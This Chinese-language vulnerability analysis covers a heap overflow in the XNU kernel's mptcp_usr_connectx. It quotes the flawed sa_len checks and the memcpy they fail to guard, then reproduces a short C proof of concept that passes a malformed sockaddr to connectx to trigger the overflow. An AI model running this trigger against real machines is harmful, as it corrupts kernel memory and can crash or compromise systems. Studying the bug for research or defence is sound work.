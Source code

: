 # 漏洞分析

漏洞函数是mptcp_usr_connectx

漏洞原因是因为该函数没有正确处理当sockaddrs不是AF_INET或AF_INET6的情况

// verify sa_len for AF_INET:

	if (dst->sa_family == AF_INET &&
	    dst->sa_len != sizeof(mpte->__mpte_dst_v4)) {
		mptcplog((LOG_ERR, "%s IPv4 dst len %u\n", __func__,
			  dst->sa_len),
			 MPTCP_SOCKET_DBG, MPTCP_LOGLVL_ERR);
		error = EINVAL;
		goto out;
	}

// verify sa_len for AF_INET6:

	if (dst->sa_family == AF_INET6 &&
	    dst->sa_len != sizeof(mpte->__mpte_dst_v6)) {
		mptcplog((LOG_ERR, "%s IPv6 dst len %u\n", __func__,
			  dst->sa_len),
			 MPTCP_SOCKET_DBG, MPTCP_LOGLVL_ERR);
		error = EINVAL;
		goto out;
	}

函数只是简单的判断了是否是AF_INET或AF_INET6的情况,对于不是AF_INET或AF_INET6的的情况，没有做判断

之后会执行的代码如下：

// code doesn't bail if sa_family was neither AF_INET nor AF_INET6

	if (!(mpte->mpte_flags & MPTE_SVCTYPE_CHECKED)) {
		if (mptcp_entitlement_check(mp_so) < 0) {
			error = EPERM;
			goto out;
		}

		mpte->mpte_flags |= MPTE_SVCTYPE_CHECKED;
	}

// memcpy with sa_len up to 255:

	if ((mp_so->so_state & (SS_ISCONNECTED|SS_ISCONNECTING)) == 0) {
		memcpy(&mpte->mpte_dst, dst, dst->sa_len);
	}

会往mpte->mpte_dst里复制从dst开始的dst->sa_len个字节

具体看看这三个参数都是什么

# mpte
mpte是个结构体

    struct mptses *mpte = NULL;

来自

    mpte = mptompte(mpp);

具体结构如下：

    /*
    * MPTCP Session
    *
    * This is an extension to the multipath PCB specific for MPTCP, protected by
    * the per-PCB mpp_lock (also the socket's lock);
    */
    struct mptses {
        struct mppcb	*mpte_mppcb;		/* back ptr to multipath PCB */
        struct mptcb	*mpte_mptcb;		/* ptr to MPTCP PCB */
        TAILQ_HEAD(, mptopt) mpte_sopts;	/* list of socket options */
        TAILQ_HEAD(, mptsub) mpte_subflows;	/* list of subflows */
        uint16_t	mpte_numflows;		/* # of subflows in list */
        uint16_t	mpte_nummpcapflows;	/* # of MP_CAP subflows */
        sae_associd_t	mpte_associd;		/* MPTCP association ID */
        sae_connid_t	mpte_connid_last;	/* last used connection ID */

        union {
            /* Source address of initial subflow */
            struct sockaddr	mpte_src;
            struct sockaddr_in __mpte_src_v4;
            struct sockaddr_in6 __mpte_src_v6;
        };

        union {
            /* Destination address of initial subflow */
            struct sockaddr	mpte_dst;
            struct sockaddr_in __mpte_dst_v4;
            struct sockaddr_in6 __mpte_dst_v6;
        };

        struct mptsub	*mpte_active_sub;	/* ptr to last active subf */
        uint8_t	mpte_flags;			/* per mptcp session flags */
    #define	MPTE_SND_REM_ADDR	0x01		/* Send Remove_addr option */
    #define	MPTE_SVCTYPE_CHECKED	0x02		/* Did entitlement-check for service-type */
    #define	MPTE_FIRSTPARTY		0x04		/* First-party app used multipath_extended entitlement */
    #define	MPTE_ACCESS_GRANTED	0x08		/* Access to cellular has been granted for this connection */
        uint8_t	mpte_svctype;			/* MPTCP Service type */
        uint8_t	mpte_lost_aid;			/* storing lost address id */
        uint8_t	mpte_addrid_last;		/* storing address id parm */

    #define	MPTE_ITFINFO_SIZE	4
        uint32_t	mpte_itfinfo_size;
        struct mpt_itf_info	_mpte_itfinfo[MPTE_ITFINFO_SIZE];
        struct mpt_itf_info	*mpte_itfinfo;

        struct mbuf		*mpte_reinjectq;

        /* The below is used for stats */
        uint32_t	mpte_subflow_switches;	/* Number of subflow-switches in sending */
        uint32_t	mpte_used_cell:1,
                mpte_used_wifi:1,
                mpte_initial_cell:1,
                mpte_handshake_success:1;

        struct mptcp_itf_stats	mpte_itfstats[MPTCP_ITFSTATS_SIZE];
        uint64_t		mpte_init_txbytes __attribute__((aligned(8)));
        uint64_t		mpte_init_rxbytes __attribute__((aligned(8)));
    };

mpte_dst是mpte结构体中代表Destination address的值，它是一个结构体

    struct sockaddr	mpte_dst;

sockaddr结构体具体如下：

    struct sockaddr {
            u_char	sa_len;
            u_char	sa_family;
            char	sa_data[14];
        };

# dst

dst是函数传入的参数，也是结构体sockaddr

    struct sockaddr *dst

dst->sa_len就是它里面表示结构体长度的值


# 漏洞成因

漏洞原因就是没有处理非AF_INET或AF_INET6的的情况，导致可以伪造一个非法的sockaddr结构，设置一个非AF_INET或AF_INET6的sa->family,以及设置sa->len为一个很大的值，那么就可以造成堆覆盖

# poc

这里看一下啤酒巨佬的poc

    #include <sys/socket.h>
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
    #include <netinet/in.h>
    #include <unistd.h>

    #define AF_MULTIPATH 39

    int main() {
    int sock = socket(AF_MULTIPATH, SOCK_STREAM, 0);//
    if (sock < 0) {
        printf("socket failed\n");
        perror("");
        return 0;
    }
    printf("got socket: %d\n", sock);

    struct sockaddr* sockaddr_src = malloc(256);//申请一个sockaddr结构体作为源地址
    memset(sockaddr_src, 'A', 256);
    sockaddr_src->sa_len = 220;
    sockaddr_src->sa_family = 'B';
    
    struct sockaddr* sockaddr_dst = malloc(256);//申请一个sockaddr结构体作为目的地址
    memset(sockaddr_dst, 'A', 256);
    sockaddr_dst->sa_len = sizeof(struct sockaddr_in6);
    sockaddr_dst->sa_family = AF_INET6;

    sa_endpoints_t eps = {0};
    eps.sae_srcif = 0;
    eps.sae_srcaddr = sockaddr_src;
    eps.sae_srcaddrlen = 220;
    eps.sae_dstaddr = sockaddr_dst;
    eps.sae_dstaddrlen = sizeof(struct sockaddr_in6);

    int err = connectx(
        sock,
        &eps,
        SAE_ASSOCID_ANY,
        0,
        NULL,
        0,
        NULL,
        NULL);

    printf("err: %d\n", err);

    close(sock);

    return 0;
    }

